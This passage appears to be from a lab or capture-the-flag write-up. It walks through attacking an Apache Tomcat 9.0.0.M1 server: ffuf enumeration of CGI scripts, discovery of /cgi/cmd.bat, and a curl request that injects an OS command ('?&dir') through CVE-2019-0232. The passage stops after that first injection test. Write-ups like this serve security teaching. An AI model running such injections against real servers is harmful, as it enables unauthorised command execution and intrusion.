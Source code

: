 - **Port 80**: site title “Freight Logistics, Inc”
 - **Port 8000**: robots.txt disallows `/`
 - **Port 8080**: `pache Tomcat/9.0.0.M1` (Tomcat instance present)

From these results we identified Tomcat running on port `8080`, and the presence of an AJP port (`8009`). Tomcat version might be vulnerable.


### Initial Application Enumeration

I investigated the Tomcat instance for management interfaces (`/manager/html`, `/host-manager/html`), but did not find a login page that could be used to authenticate as administrator. So I searched for known Tomcat attack vectors applicable to this version.

Because `Tomcat/9.0.0.M1` is present, I reviewed known Tomcat vulnerabilities and confirmed *CVE-2019-0232* (CGIServlet `enableCmdLineArguments` command-injection) is relevant: this vulnerability allows the CGI servlet to pass attacker-controlled data to system commands when `enableCmdLineArguments` is enabled, resulting in command injection/RCE on affected configurations (Windows targets when CGI scripts are present).


#### Finding CGI Scripts

I searched for CGI scripts on the Tomcat webroot using `ffuf` with a common wordlist, probing for `.cmd` or `.bat` files under `/cgi`:

```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://<target_ip>:8080/cgi/FUZZ.cmd
```
and
```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://<target_ip>:8080/cgi/FUZZ.bat
```


This discovered `cmd.bat` at `/cgi/cmd.bat`.

I verified the file exists and is accessible:

```bash
[★]$ curl -i http://<target_ip>:8080/cgi/cmd.bat

HTTP/1.1 200 
Server: Apache-Coyote/1.1
Content-Type: text/plain
...
```


### Verifying Command Injection

`CVE-2019-0232` allows supplying command-line arguments to the CGI script; passing additional arguments (using `&` or by including arguments after `?`) can execute OS commands.

I tested by appending a simple dir command:

```bash
curl "http://<target_ip>:8080/cgi/cmd.bat?&dir"
```
